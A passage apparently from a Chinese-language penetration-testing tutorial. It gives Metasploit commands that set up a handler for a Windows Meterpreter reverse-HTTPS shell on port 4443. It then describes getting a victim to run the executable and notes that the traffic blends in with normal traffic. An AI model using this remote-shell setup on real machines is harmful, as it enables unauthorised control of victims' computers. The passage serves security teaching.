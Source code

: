 现在我们将设置处理程序。在 metasploit 中输入以下：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.177.170
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false
exploit –j

```

完成后的命令示例如以下屏幕截图所示：

![Leveraging the client configuration](img/477-1_12_25.jpg)

我们现在准备让受害者运行我们的可执行文件。将可执行文件移动到受害者机器后，双击该文件，返回 metasploit 处理程序，并观察结果。以下屏幕截图显示了一个示例：

![Leveraging the client configuration](img/477-1_12_26.jpg)

从这里开始，这是一个我们想做什么的问题。输入我们以前在 MeterMeter shell 中使用的一些命令。这里额外的好处是，我们有所有的通信出口到端口 4443，这将看起来完全像正常的流量。在卡利，在 Wireshark 上开始捕获并观察机器之间的通信。以下屏幕截图显示了一个示例：

![Leveraging the client configuration](img/477-1_12_27.jpg)
